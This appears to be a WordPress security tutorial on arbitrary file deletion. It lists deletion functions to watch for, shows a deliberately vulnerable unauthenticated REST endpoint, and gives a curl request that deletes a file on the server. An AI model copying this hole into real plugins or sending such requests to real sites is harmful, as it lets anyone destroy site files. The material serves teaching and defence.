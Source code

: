 ```yaml
---
title: Arbitrary File Deletion
contributors:
    - rafiem
---
```




## Introduction

This article covers cases of possible Arbitrary File Deletion on WordPress. This includes improper file or directory deletion handling inside of the plugin/theme which can be used to delete arbitrary local files and directories inside of the server.

<LinkCard
  title="Learn how to secure your code against Arbitrary File Deletion"
  href="/academy/wordpress/securing-code/arbitrary-file-deletion/"
/>

## Useful Functions

Several functions could be useful to identify a possible Arbitrary File Deletion vulnerability:

- PHP related
    - [`unlink`](https://www.php.net/manual/en/function.unlink.php)
    - [`rmdir`](https://www.php.net/manual/en/function.rmdir.php)

- WordPress related
    - [`wp_delete_file`](https://developer.wordpress.org/reference/functions/wp_delete_file/)
    - [`wp_delete_file_from_directory`](https://developer.wordpress.org/reference/functions/wp_delete_file_from_directory/)
    - [`WP_Filesystem_Direct::delete`](https://developer.wordpress.org/reference/classes/wp_filesystem_direct/delete/)
    - [`WP_Filesystem_Direct::rmdir`](https://developer.wordpress.org/reference/classes/wp_filesystem_direct/rmdir/)

## Example Cases

Below is an example of vulnerable code:

```php
add_action("init", "rest_init_setup");

function rest_init_setup(){
    register_rest_route( "myplugin/v1", '/deletemedia/', array(
        'methods'                   =>  "POST",
        'callback'                  =>  'delete_media_upload',
        'permission_callback' => '__return_true',
    ) );
}

function delete_media_upload($request){
    $args = json_decode($request->get_body(),true);
    $data = array('status'=>false);
    if(!empty($args['media']) ){
        wp_delete_file( $args['media']['file'] );
        $data = array('status'=>true);
    }
    return new WP_REST_Response( $data, 200 );
}
```

To exploit this, any unauthenticated user just needs to perform a POST request to the `/wp-json/myplugin/v1/deletemedia` endpoint specifying the needed parameter to trigger the `wp_delete_file` function.

```bash
curl <WORDPRESS_BASE_URL>/wp-json/myplugin/v1/deletemedia -d '{"media":{"file":"<WORDPRESS_BASE_DIRECTORY>/license.txt"}}' -H 'Content-Type: application/json'
```
